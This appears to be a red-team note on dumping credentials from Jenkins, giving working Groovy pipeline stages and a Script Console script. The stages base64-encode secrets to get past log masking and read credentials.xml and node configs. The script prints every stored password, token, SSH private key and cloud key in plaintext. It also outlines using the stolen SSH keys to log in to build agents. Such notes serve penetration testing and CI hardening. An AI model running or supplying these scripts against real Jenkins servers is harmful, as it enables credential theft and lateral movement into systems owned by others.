


# Credentials Dumping

## Credentials in Text fields in Credentials List
- We can find the list of credentials name and id at http://host:ip/credentials/
- While this sounds very hypothetical, it is very much real to find credentials in text and name section.
- Possible reason for rewriting credentials in credentials description makes it easier to remember purpose, or for making debugging easy.

## Dumping credentials from logs

- Build logs are generated from the build output.
- In certain cases depending on how the pipeline is created, credentials can get logged in the build output


## Credentials Dumping from pipeline

- We can store various kinds of credentials in Jenkins ( username:password, AWS credential, secret file, secret text, Github credentials, certificate )
- The withCredentials() function can pass the credential id for the required secret and that credential will be available as an environment variable.
- If there are some global credentials or credentials for the current project scope we can dump them. 
- It is important to know the name of the parameter, and if you have guessed correctly we can get the parameter id from here ( http://host:ip/credentials/ )
- Credentials Bindings ( https://www.jenkins.io/doc/pipeline/steps/credentials-binding/ )

- Dumping Username:Password
``` Groovy
stage('Credential Dumping') {
            steps {
                 withCredentials(
                    [usernameColonPassword(credentialsId: '3b258e73-5e16-4338-883e-7a24927aefe1', variable: 'USERPASS')]
                ) {
                    sh '''
                        echo "$USERPASS" | base64
                    '''
                }
            }
        }
```
- Dumping AWS Keys ( References : https://stackoverflow.com/questions/53859575/jenkinsfile-access-aws-credentials )
```
        stage('Credential Dumping') {
            steps {
                 withCredentials([[$class: 'AmazonWebServicesCredentialsBinding',credentialsId: "8ada641e-429c-4547-9921-a1581dbf86ef",accessKeyVariable: 'AWS_ACCESS_KEY_ID',secretKeyVariable: 'AWS_SECRET_ACCESS_KEY'
]]) {
                    sh '''
                        echo "$AWS_ACCESS_KEY_ID" | base64
                    '''
                }
            }
        }
```        

## Credential ID Dumping

- Imagine we don't have access to  ```http://host:ip/credentials/``` to list the credentials id
- We can either look through the code repository hunting for these id or we need a piece of luck we can use Built-In executor
- When ```# of exectors``` in ```Configure System``` is set to non-zero, we can run builds on the controller, which means we have access to the controllers file system.
- Reference - https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
```


## Credentials & Configuration Dumping Build Agents Information

- This will be somewhat a borderline between credential dumping and lateral movement/backdooring.
- If the Jenkins Controller use SSH to the build agents we can try to dump those ssh keys and get access to the build agents.
- If some fields are not entered during configuration, then they might throw error while calling  withCredentials(sshUserPrivateKey) ( as I have not used paraphrase , trying to dump paraphrase would throw error )
- So we need luck here again as configuration files are stored in controller. 
   - Step 1 : Dump the ssh identifiers
   - Step 2 : Dump the ssh keys ( Reference : https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials )
   - Step 3 : Dump the nodes configuration ( note : the path to the Worker-Node is found through traversing the nodes under $JENKINS_HOME/nodes)
   - Step 4 : Use the user-name, and hostname and ssh-key to login to the build agent
``` Groovy
        stage('Identifier Dumping') {
            steps {
                 sh '''
                   cat $JENKINS_HOME/credentials.xml | grep "<id>"
                 '''
            }
        }
        
    stage('Host Information Dumping') {
            steps {      
                  sh '''
                    cat /var/lib/jenkins/nodes/Worker-Node/config.xml
                  '''   
            }
    }
        
    stage('Dumping sshUserPrivateKey') {
        steps {
            script {
                withCredentials([sshUserPrivateKey(
                    credentialsId: 'dd0f4c9e-01dc-47c3-a0cd-3fff32e2a6cd',
                    keyFileVariable: 'keyFile',
                    passphraseVariable: 'passphrase',
                    usernameVariable: 'username')
                ]){
                    print 'keyFile=' + keyFile
                    print 'username=' + username
                    print 'keyFile.collect { it }=' + keyFile.collect { it }
            
                    print 'username.collect { it }=' + username.collect { it }
                    print 'keyFileContent=' + readFile(keyFile)
                }
            }
        }
    }
```





## Credentials Dumping from Script Console

- Credentials can be dumped from the Script Console
``` Groovy
//copied from https://gist.github.com/timja/04afb12c8ad909e400317a2ad9c88445
import com.cloudbees.plugins.credentials.*
import com.cloudbees.plugins.credentials.common.*
import com.cloudbees.plugins.credentials.domains.*
import com.cloudbees.plugins.credentials.impl.*
import com.cloudbees.jenkins.plugins.sshcredentials.impl.*
import org.jenkinsci.plugins.plaincredentials.impl.*

  
// def item = Jenkins.instance.getItem("your-folder")

def creds = CredentialsProvider.lookupCredentials(
        com.cloudbees.plugins.credentials.Credentials.class,
        Jenkins.instance, // replace with item to get folder or item scoped credentials 
        null,
        null
);

for (credential in creds) {
  if (credential instanceof UsernamePasswordCredentialsImpl) {
    println credential.getId() + " " + credential.getUsername() + " " + credential.getPassword().getPlainText()
  } else if (credential instanceof StringCredentialsImpl) {
    println credential.getId() + " " + credential.getSecret().getPlainText() 
  } else if(credential instanceof BasicSSHUserPrivateKey) {
    println credential.getId() + " " + credential.getUsername() + "\n" + credential.getPrivateKey() + "\n Passphrase: " + credential.getPassphrase()
  } else if (credential.getClass().toString() == "class com.microsoft.azure.util.AzureCredentials") {
    println "AzureCred:" + credential.getSubscriptionId() + " " + credential.getClientId() + " " + credential.getPlainClientSecret() + " " + credential.getTenant()
  } else if (credential.getClass().toString() == "class org.jenkinsci.plugins.github_branch_source.GitHubAppCredentials") {
    println credential.getId() + " " + credential.getUsername() + "\n" + credential.getPrivateKey().getPlainText()
  } else if (credential.getClass().toString() == "class com.cloudbees.jenkins.plugins.awscredentials.AWSCredentialsImpl") {
    println credential.getId() + " " + credential.getAccessKey() + " " + credential.getSecretKey()
  } else if (credential.getClass().toString() == "class com.microsoft.jenkins.keyvault.SecretStringCredentials"
            || credential.getClass().toString() == "class org.jenkinsci.plugins.azurekeyvaultplugin.credentials.string.AzureSecretStringCredentials") {
  } else {
    println credential.getClass()
  } 
}
```

### Global Credentials

- There can be credentials that can be limited to one project but configured as a global credential.
- Global credentials are avaiable in all the projects. Hence if one project pipeline / scm is compromised, the secured ones will also be affected.
- Imagine if we have AWS Access keys that are marked as global crdential used in Project A. Project B will also have access to that credential.

## Offline Credentials Cracking

- TODO


## References
- https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials 
- https://www.jenkins.io/blog/2019/02/21/credentials-masking/
